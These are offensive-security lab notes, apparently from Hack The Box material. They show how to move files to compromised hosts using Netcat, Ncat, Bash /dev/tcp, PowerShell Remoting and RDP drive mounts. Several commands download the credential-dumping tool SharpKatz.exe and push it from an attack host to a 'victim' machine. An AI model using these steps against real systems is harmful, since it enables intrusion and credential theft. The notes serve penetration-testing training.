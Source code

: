 # 🚘 Miscellaneous File Transfer

Here we'll see how to transfer files using [Netcat](https://en.wikipedia.org/wiki/Netcat), [Ncat](https://nmap.org/ncat/) and using RDP and PowerShell sessions.

### Netcat

Netcat is used for reading from and writing to network connections using TCP or UDP

**Transfer files ->**

```shell-session
nc -l -p 8000 > SharpKatz.exe
```

Here we use the options for listening with option `-l`, selecting the port to listen with the option `-p 8000`, and redirect the [stdout](https://en.wikipedia.org/wiki/Standard\_streams#Standard\_input\_\(stdin\)) using a single greater-than `>` followed by the filename

and if the compromised machine is using Ncat we'll need to specify `--recv-only` to close the connection once the file transfer is finished.

#### Ncat

```shell-session
 ncat -l -p 8000 --recv-only > SharpKatz.exe
```

**Sending File to Compromised machine**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted.

**Ncat**

```shell-session
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

***

in scenarios where there's a firewall blocking inbound connections we can  listen on port 443 on our Pwnbox and send the file [SharpKatz.exe](https://github.com/Flangvik/SharpCollection/raw/master/NetFramework\_4.7\_x64/SharpKatz.exe) as input to Netcat.

```
#On our attack host
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

```
#On target machine
nc 192.168.49.128 443 > SharpKatz.exe
```

**Ncat**

```
#On our attack host
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

```
#On target machine
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

***

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

**Sending File as Input to Netcat**

<pre class="language-shell-session"><code class="lang-shell-session">#Original Netcat
<strong>sudo nc -l -p 443 -q 0 &#x3C; SharpKatz.exe
</strong><strong>
</strong>#Ncat
sudo ncat -l -p 443 --send-only &#x3C; SharpKatz.exe
</code></pre>

And then our victim connects to ncat Using /dev/tcp to Receive the File

```shell-session
#Victim
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell

If we encounter scenarios where HTTP, HTTPS, or SMB are unavailable we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration.

Here we will transfer a file from `DC01` to `DATABASE01` and vice versa. We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**

```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

**Create a PowerShell Remoting Session to DATABASE01**

```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**

```
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**

```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

### RDP

We can transfer files using RDP by copying and pasting. We can right-click and copy a file from the Windows machine we connect to and paste it into the RDP session.

If we are connected from Linux, we can use `xfreerdp` or `rdesktop`

As an alternative to copy and paste, we can mount a local resource on the target RDP server. `rdesktop` or `xfreerdp` can be used to expose a local folder in the remote RDP session.

**Mounting a Linux Folder Using rdesktop**

```shell-session
ElFelixi0@htb[/htb]$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

**Mounting a Linux Folder Using xfreerdp**

```shell-session
ElFelixi0@htb[/htb]$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
